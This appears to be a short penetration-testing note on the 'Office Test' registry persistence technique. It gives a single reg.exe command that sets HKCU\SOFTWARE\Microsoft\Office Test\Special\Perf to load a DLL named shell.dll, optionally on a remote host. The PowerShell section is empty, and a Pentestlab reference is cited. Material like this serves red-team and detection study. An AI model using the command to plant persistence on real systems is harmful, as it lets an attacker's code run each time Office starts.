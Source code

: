 # Microsoft Office Test

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Microsoft\Office Test\Special\Perf" /t REG_SZ /d "C:\path\to\shell.dll" /f
```

## 02 - PowerShell

```

```

---
## References

- [Pentestlab: Persistence - Office Application Startup](https://pentestlab.blog/2019/12/11/persistence-office-application-startup/)